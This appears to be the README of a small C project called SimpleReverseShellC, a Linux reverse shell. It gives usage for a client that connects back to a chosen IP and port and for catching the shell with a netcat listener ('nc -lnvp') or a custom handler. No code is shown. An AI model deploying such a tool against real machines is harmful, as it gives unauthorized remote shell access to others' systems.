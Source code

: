 # SimpleReverseShellC

This is a simple Reverse Shell written for linux platform execution.

## Client Usage:

./linuxClient [IP] [PORT]

Where [IP] and [PORT] will default to the default defines if no paramters are passed.


## Handler Usage Options:

### NetCat Handling:
nc -lnvp [PORT]

### Custom Handler:
./hander [PORT]
